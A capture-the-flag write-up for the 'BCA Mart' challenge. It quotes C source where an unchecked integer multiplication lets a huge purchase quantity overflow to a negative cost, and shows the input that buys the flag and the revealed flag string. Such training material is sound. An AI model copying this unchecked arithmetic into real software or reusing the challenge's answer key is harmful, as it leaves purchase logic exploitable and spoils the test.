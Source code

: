 # BCA Mart

#### Category : binex
#### Points : 75 points
#### Author : Edward Feng

## Challenge

After the pandemic hit, everybody closed up shop and moved online. Not wanting to be left behind, BCA MART is launching its own digital presence. Shop BCA MART from the comfort of your own home today!
![question](https://i.imgur.com/Bt5OHjA.png)
-   [bca-mart.c](https://objects.bcactf.com/bcactf2/bca-mart/bca-mart.c)
-   [bca-mart](https://objects.bcactf.com/bcactf2/bca-mart/bca-mart)
-   `nc bin.bcactf.com 49153`

## Solution
This was a simple integer overflow problem

Looking at the source code `bca-mart.c`, we see 
The initial money (15)
```cpp
int money = 15;
```

The price of the flag (100)
```cpp
case 6:
                if (purchase("super-cool ctf flags", 100) > 0) {
                    FILE *fp = fopen("flag.txt", "r");
                    char flag[100];

                    if (fp == NULL) {
                        puts("Hmm, I can't open our flag.txt file.");
                        puts("Sorry, but looks like we're all out of flags.");
                        puts("Out of luck, we just sold our last one a couple mintues ago.");
                        puts("[If you are seeing this on the remote server, please contact admin].");
                        exit(1);
                    }

                    fgets(flag, sizeof(flag), fp);
                    puts(flag);
                }
```

The vulnerable code 
```cpp
    scanf("%d", &amount);

    if (amount > 0) {
        cost *= amount;
        printf("That'll cost $%d.\n", cost);
        if (cost <= money) {
            puts("Thanks for your purchse!");
            money -= cost;
```

This code is vulnerable because although it does check if amount is positive or not, it does not check if `cost *= amount` is positive.

We need to provid such an amount so that `cost*amount` goes more than `INT_MAX` after which the cost becomes negative and we are able to buy the flag.

#### Getting Flag
```bash
Welcome to BCA MART!
We have tons of snacks available for purchase.
(Please ignore the fact we charge a markup on everything)

1) Hichew™: $2.00
2) Lays® Potato Chips: $2.00
3) Water in a Bottle: $1.00
4) Not Water© in a Bottle: $2.00
5) BCA© school merch: $20.00
6) Flag: $100.00
0) Leave

You currently have $15.
What would you like to buy?
> 6
How many super-cool ctf flags would you like to buy?
> 200000000
That'll cost $-1474836480.
Thanks for your purchse!
bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}
```
Flag : ```bcactf{bca_store??_wdym_ive_never_heard_of_that_one_before}```
